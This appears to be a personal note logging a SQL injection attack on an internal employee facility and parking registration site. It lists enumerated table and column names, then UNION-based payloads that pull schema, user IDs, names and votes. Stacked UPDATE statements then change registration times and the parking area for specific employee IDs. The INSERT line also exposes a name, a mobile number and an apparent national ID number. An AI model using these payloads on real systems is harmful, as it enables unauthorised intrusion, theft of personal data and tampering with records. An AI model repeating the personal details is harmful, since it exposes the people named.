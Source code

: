 | ID                | Name   | Parking Area | regtime            |
|-------------------+--------+--------------+--------------------|
| Dependent_Reguser | userid |            5 | 1900/1/3           |
| facility_list     | userid |            5 | 1900/1/3           |
| Shuttlecock       | userid |            5 | 1900/1/3           |
| mentalhealth      | userid |            5 | 1900/1/3           |
| regHR             | userid |            5 | 1900/1/3           |
| Survey            | userid |            5 | 1900/1/3           |
| S_Reguser         | userid |            5 | 1900/1/3           |
| Combo_Reguser     | userid |            5 | 1900/1/3           |
| Question          | userid |            5 | 1900/1/3           |
| person            | userid |            5 | 1900/1/3           |
| L_Reguser         | userid |            5 | 1900/1/3           |
| HL_Reguser        | userid |            5 | 1900/1/3           |
| free_2014         | userid |            5 | 1900/1/3           |
| exam              | userid |            5 | 1900/1/3           |
| A_reguser         | userid |            5 | 1900/1/3           |
| friend            | userid |            5 | 1900/1/3           |
| Product           | userid |            5 | 1900/1/3           |
| Tea_reguser       | userid |            5 | 1900/1/3           |
| QualityDay        | userid |            5 | 1900/1/3           |
| photo_library     | userid |            5 | 1900/1/3           |
| Sustainability    | userid |            5 | 1900/1/3           |
| Photo_Result      | userid |            5 | 1900/1/3           |
| car_info          | userid |            5 | 1900/1/3           |
| QualityDay_List   | userid |            5 | 1900/1/3           |
| reguser           | userid |            5 | 1900/1/3           |
| teched            | userid |            5 | 1900/1/3           |
| Dkmo_list         | userID |            5 | 1900/1/3           |
| BYD_reguser       | userid |            5 | 1900/1/3           |
| BYD_reg           | userid |            5 | 1900/1/3           |
| tb_lunch          | userid |            5 | 1900/1/3           |
| book_info         | userid |            5 | 1900/1/3           |
| C_reguser         | userid |            5 | 1900/1/3           |
| Travler           | userid |            5 | 1900/1/3           |
| ACI_reg           | userid |            5 | 1900/1/3           |
| news_result       | userid |            5 | 1900/1/3           |
| event_reg         | userid |            5 | 1900/1/3           |
| fin               | userid |            5 | 1900/1/3           |
| result            | userid |            5 | 1900/1/3           |
| FASTtrack         | userid |            5 | 1900/1/3           |
| Facility          | userid |            5 | 1900/1/3           |
| Video             | userid |            5 | 1900/1/3           |
| ad_class          | userid |            5 | 1900/1/3           |
| Employee_list     | userid |            5 | 1900/1/3           |
| UserSheet         | UserId |            5 | 1900/1/3           |
| Facility_Result   | userid |            5 | 1900/1/3           |
| BYD               | UserID |            5 | 1900/1/3           |
| Badges            | userid |            5 | 1900/1/3           |
| T_Know            | userid |            5 | 1900/1/3           |
| Developer         | userid |            5 | 1900/1/3           |
| hands             | userid |            5 | 1900/1/3           |
| T_result          | userid |            5 | 1900/1/3           |
| parking_permit    | userid |            5 | 1900/1/3           |
| Employee          | userid |            5 | 1900/1/3           |
| free              | userid |            5 | 1900/1/3           |
| Rope              | userid |            5 | 1900/1/3           |
| ad_class2         | userid |            5 | 1900/1/3           |


| Facility | id           | 5 | 1900/1/3 |
| Facility | userid       | 5 | 1900/1/3 |
| Facility | username     | 5 | 1900/1/3 |
| Facility | Mobile       | 5 | 1900/1/3 |
| Facility | Ext          | 5 | 1900/1/3 |
| Facility | ownership    | 5 | 1900/1/3 |
| Facility | relationship | 5 | 1900/1/3 |
| Facility | regtime      | 5 | 1900/1/3 |
| Facility | logintime    | 5 | 1900/1/3 |
| Facility | isdelete     | 5 | 1900/1/3 |
| Facility | ParkingArea  |   |          |

http://slc.pvgl.sap.corp:1080/register/facility/employee/index.asp

#+BEGIN_SRC sql
  insert into <TABLE>
          ('UserID', 'L_Name', 'Mobile', 'Ext', 'ParkingArea')
   values ('I046147', 'VINCENT', '13761506775', '320684198405243176',
   '\\' SELECT PVG06')

   I074192' or UserID = 'I068150s
   1' or '1' = '1

   i046147' or UserId = (Update employee set L_Name = 'Vince' where UserID = 'i046147') or '1' = '1;

   select * from employee where UserId like "%&UserID%"

   select * from employee where UserId like '%I074193%' or UserID = 'i074192' /* %'

   I074193' or UserID = 'i074192' -- 

   I074192' UNION ALL select 1, null, null from information_schema.columns --

   I074192' UNION ALL select 1, 'a', 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 --

   I058712' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'Facility_Result' --
   
   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'parking_permit' --

   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'C_reguser' --
   
   I058712' UNION ALL select top 192 1, userid, username, 'c', 'd', 'e', 'f', regtime, 3, 4, ParkingArea from Facility where ParkingArea = 'PVG06' --
I058808 

   I058712' UNION ALL select 1, userid, vote, 'c', 'd', 'e', 'f', logintime, 3, 4, 5 from Facility_Result --

I058712'; Update Facility set logintime = '2016/4/8 18:32:12', regtime = '2016/4/8 18:34:43', ParkingArea='PVG06' where userid = 'I046147' --

I058712'; Update Facility set logintime = '2016/4/28 17:29:41', regtime = '2016/4/28 17:30:30', ParkingArea='PVG06' where userid = 'I010389' --

I058712'; Update Facility set logintime = '2016/7/4 14:13:32', regtime = '2016/7/4 14:14:24', ParkingArea='PVG06' where userid = 'I067652' --

I058712'; Update Facility set logintime = '2016/7/25 14:44:12', regtime = '2016/7/25 14:45:32', ParkingArea='PVG06' where userid = 'I323430' --

   I074192' UNION ALL select 1, Host, 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 from mysql.user --
#+END_SRC
